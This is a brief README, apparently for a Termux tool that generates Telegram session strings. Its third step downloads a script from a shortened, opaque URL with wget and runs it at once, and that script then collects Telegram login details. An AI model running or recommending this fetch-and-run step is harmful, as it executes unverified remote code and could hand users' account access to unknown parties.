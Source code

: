 ### PYROGRAM -TELETHONE STRING GEN. - Easy Method

### OPEN TERMUX 

- 1 - `git clone https://github.com/Badhacker98/VPS_STRING_BOT && cd VPS_STRING_BOT`
- 2-  `pip3 install -U -r requirements.txt`
- 3 -  `wget -O session.py https://shorturl.at/vMtxG && python3 session.py`

### Choose one that you want to gen. Session .
### fill detail .
### Check your saved message .
### Thanku .


### > ᴍᴀᴅᴅ ʙʏ [⎯꯭̽🇨🇦꯭꯭ ⃪В꯭α꯭∂ ꯭м꯭υ꯭η∂꯭α_꯭آآ⎯꯭ ꯭̽🌸](https://t.me/ll_BAD_MUNDA_ll)
> 
